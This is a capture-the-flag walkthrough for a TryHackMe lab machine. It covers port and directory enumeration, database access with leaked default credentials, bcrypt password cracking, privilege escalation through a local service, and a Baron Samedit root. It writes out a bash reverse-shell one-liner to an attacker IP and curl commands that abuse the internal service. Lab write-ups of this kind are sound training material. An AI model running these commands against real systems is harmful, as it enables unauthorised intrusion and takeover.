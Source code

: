 # _TRYHACKME (Linuzz CTF)_


IP
```
10.10.xx.xxx
```

ENUMERATION: <br />
- RUSTSCAN <br>
  rustscan -r 1-65535 -a IP -u 5000 -- -A <br />
  [Result](rustscan.md) <br />
- GOBUSTER: <br />
    gobuster dir -u http://IP/ -w ~/DirBuster-Lists/directory-list-2.3-small.txt -x txt,php,html
- FUFF: <br />
    ffuf -w ~/tools/SecLists/Discovery/Web-Content/raft-small.txt -u http://IP/FUZZ -e .html,.txt,.php,

<br />

Interesting port from rustscan: <br>
- 80
- 3306
- 4444
- 5000

Interesting endpoint from gobuster and ffuf : <br>
- /whatever
- /hidden
- /instructions.txt

<br />

> Rabbit hole <br />

IP:4444 (nc IP 4444)<br />
IP:5000 (nc IP 5000 )<br>
IP:80/hidden <br>

<br >

> ## Intended Way
<br>

> /instruction.txt <br>

It seems to have default username and password for MySQL: <br>

```
rXXXXXXX:CXX_sXXXXX_cXX_cXXXXXXX
```

> /whatever <br>

None of the command is executed since,
```
Command Executer Mode :0
```

It seems like we need to change the value 0 to make it work

```
mysql -h IP -u rXXXXXXX -P 3306 -p
(enter password)
show databases;

use DATABASENAME;

UPDATE TABLENAME SET run=1;
```

Finally it works <br>

![Image](image.png)

<br />

To get a shell
```
bash -c "bash -i >& /dev/tcp/10.8.89.248/4444 0>&1"
```

> LINPEAS ENUMERATION <br>

Interesting output
```
localhost:8080
```
![Image](image1.png)

```
curl -d "password=[ADAMS'S_PASSOWRD]&cmdtype=ls" -X POST localhost:8080
```
doesn't seems to work with adam's password <br>

> Manual Enumeration <br />

We can find a [python file](bcrypt_encryption.py) located at

```
/proct/pass/bcrypt_encryption.py
```

Modifying the python file a bit to get adam's password:

[pass.py](pass.py)
or
[pass2.py](pass2.py)

read more about [bcrypt library](https://github.com/pyca/bcrypt/) to know how it works.

<br />

we can get adam's password from the above script (Since the password is too far down in rockyou.txt wordlist, it takes some time)
```
xxxxxx_xxxxxxxxxxxx
```

Enumerating in /home/adam we get the password for mason.
<br>

mason's password (Place name without space)
```
xxxxxxxxxxxx
```

> Privilege Escalation <br >

As we got password for mason now we can url to the localhost:8080: <br>

```
curl -d "password=[MASON'S_PASSOWRD]&cmdtype=passwd" -X POST localhost:8080
```

<br />

> ## Unintended way to get root from www-data <br />

<br >

If we run [linux-explioit-suggester](https://github.com/mzet-/linux-exploit-suggester) gives us an obvious way to get root.

```
./exploit_suggester
baron samedit
```
<br />

[TRYHACKME box on the above exploit](https://tryhackme.com/room/sudovulnssamedit)